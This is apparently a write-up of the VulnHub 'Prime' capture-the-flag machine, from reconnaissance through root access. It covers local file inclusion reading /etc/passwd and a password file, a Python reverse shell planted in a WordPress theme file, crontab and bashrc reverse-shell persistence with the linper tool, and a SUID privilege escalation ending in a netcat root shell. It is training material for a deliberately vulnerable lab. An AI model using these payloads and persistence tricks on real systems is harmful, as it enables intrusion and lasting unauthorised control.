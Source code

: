 # prime
[vulnhub link](https://download.vulnhub.com/prime/Prime_Series_Level-1.rar)

## recon
### poking around
victor is a username for the wp site, seen http://target/wordpress/ and verified at http://target/wordpress/wp-login.php

### dirb
*dirb http://target -X .php,.txt*

found http://target/secret.txt, it references a location.txt github page that reference "file" as a payload

navigating to http://target/index.php?file=/etc/passwd returns,
	
	Do something better, you are digging wrong file

referencing the dirb output, navigating to http://target/index.php?file=location.txt returns,
	
	ok well Now you reah at the exact parameter
	Now dig some more for next one
	use 'secrettier360' parameter on some other php page for more fun

following the directions takes you too http://target/image.php?secrettier360=/etc/passwd, which succeeds! a user named saket left a interesting message
	
	saket:x:1001:1001:find password.txt file in my directory:/home/saket

using that, we navigate to http://target/image.php?secrettier360=/home/saket/password.txt
	
	follow_the_ippsec

## exploitation
credentials
	
	wp-login:victor:follow_the_ippsec

There is a file PHP file (in theme editor) named secret.php that is wrtable, I put a python reverse shell in the file
	
	<?php system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.12",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''); ?>

## persistence
Put a copy in /dev/shm/secret.php for LFI

put python reverse shell on * * * * * on www-data's crontab that calls back to 5253, set using my linux persistance tool, [linper](https://github.com/montyonsecurity/linper)

## privesc
### poking around
/opt/backup/server_database/backup_pass
	
	your password for backup_database file enc is 
	"backup_password"
	Enjoy!

### linenum
	[+] We can sudo without supplying a password!
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User www-data may run the following commands on ubuntu:
	    (root) NOPASSWD: /home/saket/enc

### exploiting suid
Supplied password from /opt to enc, got enc.txt and key.txt


enc.txt
	
	nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=

Looks like AES

key.txt

	I know you are the fan of ippsec.

	So convert string "ippsec" into md5 hash and use it to gain yourself in your real form.

following the directions in key.txt gives us 366a74cb3c959de17d61db30591c39d1
	
	echo -n ippsec | md5sum
	366a74cb3c959de17d61db30591c39d1

Decrypted enc.txt using https://www.devglan.com/online-tools/aes-encryption-decryption

	Dont worry saket one day we will reach toour destination very soon. And if you forget your username then use your old password==> "tribute_to_ippsec"Victor,

credentials
	
	wp-login:victor:follow_the_ippsec
	ssh:saket:tribute_to_ippsec

### privesc to root
ssh in with saket credentials

re-running linenum, providing saket's credentials, returns a suid enabled file, /home/victor/undefeated_victor

running /home/victor/undefeated_victor returns an error saying it cannot open /tmp/challenge which suggets it is trying to run it and it does not exist. putting [linper](https://github.com/montyonsecurity/linper) in /tmp/challenge and re-running
	
	saket@ubuntu:/dev/shm$ chmod +x linper.sh
	saket@ubuntu:/dev/shm$ cp linper.sh /tmp/challenge
	saket@ubuntu:/dev/shm$ sudo /home/victor/undefeated_victor
	if you can defeat me then challenge me in front of you
	[+] Netcat reverse shell placed in root's bashrc
	[+] Calls back to 192.168.56.12:1337
	[+] Python reverse shell written to root's crontab
	[+] Calls back to 192.168.56.12:1337
	[+] Python reverse shell placed in root's bashrc
	[+] Calls back to 192.168.56.12:1337

setup the listener and you have root
	
	monty@client-10-228-71-23:~/ctfs/vulnhub/prime/www$ nc -lnvp 1337
	listening on [any] 1337 ...
	connect to [192.168.56.12] from (UNKNOWN) [target] 56770
	/bin/sh: 0: can't access tty; job control turned off
	\# id
	uid=0(root) gid=0(root) groups=0(root) 
